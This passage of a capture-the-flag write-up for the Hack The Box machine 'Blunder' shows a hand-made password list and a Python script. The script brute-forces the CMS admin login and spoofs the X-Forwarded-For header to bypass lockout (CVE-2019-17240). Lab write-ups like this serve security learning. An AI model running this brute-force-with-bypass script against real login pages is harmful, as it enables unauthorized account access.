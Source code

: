 <img src="/images/blunder/todo.png" />

This gives us the name of a possible user "fergus".

Here is the part I got stuck because I had no leads or ideas about where to go from here. Heading over to Hackthebox forums (this has become a ritual for all my writeups) I see someone saying that everything I need is in front of me and It maybe written a bit different from others. I go back to the blog and start making a list of possible passwords **manually**. Later I found that there is a tool for cool people known as cewl, it is used to make a wordlist from automatically -_- . Anyway here is the list I made:

```
fergus
blunder
Blunder
admin
stephen king
stephen edwin king
king
richard bachman
rolanddeschain
RolandDeschain
oeuvre
king of horror
King of Horror
stadia
Stadia
usb
USB
1996
universal serial bus
Uinversal Serial Bus
yoo-es-bee

```

Moving on... I make python script to try all the passwords for the user "fergus" Soon to find out that my requests were getting blocked. WAHT?! I remember the CVEs I found had something to bypass this behaviour. I look at [CVE-2019-17240](https://www.cvedetails.com/cve/CVE-2019-17240/), which tells me that if I change the header X-Forwarded-For header the CMS will not be able to pin point the source of bruteforce to my IP and thus we will be able to bypass the mechanism. Here is the final script:

```
import requests
import re
f=open('list.txt','r')
password=f.read().split('\n')
f.close()

for p in password:
	s=requests.Session()
	page=s.get('http://10.10.10.191/admin/')
	token=re.findall('name="tokenCSRF" value=".*"',page.text)
	payload={'username':'fergus','password':p,'tokenCSRF':token[0][24:-1]}
	x=s.post('http://10.10.10.191/admin/',data=payload,headers={'X-Forwarded-For':p})
	if 'Login' not in x.text:
		print(p)
```